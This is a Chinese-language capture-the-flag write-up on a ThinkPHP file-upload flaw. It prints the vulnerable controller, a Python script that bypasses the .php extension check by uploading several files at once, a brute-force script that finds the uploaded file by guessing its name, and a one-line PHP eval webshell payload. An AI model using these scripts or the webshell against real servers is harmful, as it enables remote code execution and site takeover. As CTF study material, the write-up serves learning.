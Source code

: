 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-27
---
```


## 思路

1.打开网页，首先是一段php源码，如下：

```php
 <?php 
    namespace Home\Controller; 
	use Think\Controller; 
	class IndexController extends Controller {   
        public function index()   
        {     
            show_source(__FILE__);   
        }   
        public function upload()   
        {     
            $uploadFile = $_FILES['file'] ;         
            if (strstr(strtolower($uploadFile['name']), ".php") ) {       
                return false;     
            }         
            $upload = new \Think\Upload();// 实例化上传类     
            $upload->maxSize = 4096 ;// 设置附件上传大小     
            $upload->allowExts = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型     
            $upload->rootPath = './Public/Uploads/';// 设置附件上传目录     
            $upload->savePath = '';// 设置附件上传子目录     
            $info = $upload->upload() ;  //此处存在漏洞   
            if(!$info) {// 上传错误提示错误信息      
                $this->error($upload->getError());      
                return;     
            }else{// 上传成功 获取上传文件信息      
                $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
                echo json_encode(array("url"=>$url,"success"=>1));     
            }   
        } 
    } 
```

分析该段代码：

- 首先会获取上传文件的文件名，并将其转化为小写，判断是否包含.php。

- 限制了上传文件的最大大小：4096

- 限制了可以上传的文件类型：jpg、gif、png、jpeg

- thinkphp**默认上传路径**是/home/index/upload

- 这里调用**upload()函数**，该函数存在一个漏洞，

  在不传参时为多文件上传，整个$FILES数组的文件都会上传保存，但该题只限制了$_FILES[file]的上传后缀，因此就可以通过上传多文件绕过php后缀限制。
  
  

2. 该题与常规的有文件上传按钮的题目不同，需要自己构建POST请求，上传文件。--》可以写python脚本实现

   > $_FILES是一个预定义的数组，用来获取通过POST方法上传文件的相关信息。
   >
   > 单个文件上传--》$_FILES为二维数组
   >
   > 多个文件上传--》$_FILES为三维数组

   利用python进行POST请求上传文件，格式如下：

   ![img](./images/202011201118394.png)

3. thinkphp上传文件时，文件名是按顺序递增的

采用下面的脚本，上传多个文件，来绕过对文件后缀名的检测

> 查看thinkphp源码得知文件名是通过uniqid函数生成的，uniqid函数是基于**以微秒计**的当前时间计算的，两个同时上传生成的文件名相差不会太远，因此可以在两个文件名之间进行暴力遍历，找到上传的木马文件的文件名。
> 除了此方法外，还可以使用`<>`绕过，载荷为`res=requests.post(url,files={'file':('webshell.<>php','<?php @eval($_POST["shell"]); ?>')})`

```python
import requests

url = 'http://7a4fb2e4-7ba4-49b0-a137-450ceea340d1.node3.buuoj.cn/index.php/home/index/upload'
file1 = {'file':open('special_dict.txt','r')}
file2 = {'file[]':open('test.php','r')}//upload()不传参时即是批量上传所以用[]

r = requests.post(url,files = file1)
print(r.text)

r = requests.post(url,files = file2)
print(r.text)

r = requests.post(url, files = file1)
print(r.text)
```

4. 可以看到上传的两个txt文件的文件名前几位都相同，只有最后五位不同，因此可以只遍历后五位，找出上传的木马php文件的文件名，然后再进行连接。

<img src="./images/image-20201227212507106.png" alt="image-20201227212507106" style="zoom:50%;" />

​	进行遍历的脚本为：

```python
dir ='abcdef0123456789'
for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://e2a3bb2f-2911-4b51-b679-0d15f7f3899b.node3.buuoj.cn/Public/Uploads/2020-12-27/5fe88b1b{}{}{}{}{}'.format(i,j,k,x,y)
                    #print(url)
                    print("next")
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
```



## 总结

- 本题主要考查的是对thinkphp的upload文件上传漏洞
  - 上传多个文件，即可绕过对文件后缀名的检测，成功上传php文件
  - upload函数默认上传的文件路径为/home/index/upload
  - thinkphp上传文件后会修改文件名，根据上传时间生成，因此同时上传的文件一般文件名比较接近。